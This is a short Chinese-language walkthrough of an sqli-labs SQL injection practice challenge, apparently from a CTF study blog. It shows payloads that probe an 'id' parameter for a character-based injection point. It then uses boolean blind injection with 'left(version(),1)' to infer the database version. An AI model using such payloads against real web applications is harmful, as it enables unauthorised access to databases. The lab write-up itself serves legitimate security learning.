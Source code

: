 先尝试确定注入点：

payload:?id=1

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/A323A80B77194186988800F35C2096AFclipboard.png)



payload:?id=1'

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/070A2C3D20274D1CA90FDB4235852C65clipboard.png)



此时可能存在字符型的注入。

payload:?id=-11'or'1'='1

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/EA3FFFA77F2946CAA9097B45DFF48D8Bclipboard.png)

和刚才的页面一样，说明蹴存在注入。



没有回显报错，只有两个页面，此时采用布尔盲注或时间盲注

payload:?id=1'and+left(version(),1)=5--+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/8D7235C1C9A24B03B0ADD1534EA22359clipboard.png)

payload:?id=1'and+left(version(),1)=6--+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/1D4B50325C4E4B4BA30B7A9B19B6E3CAclipboard.png)

此时说明数据库版本为5.几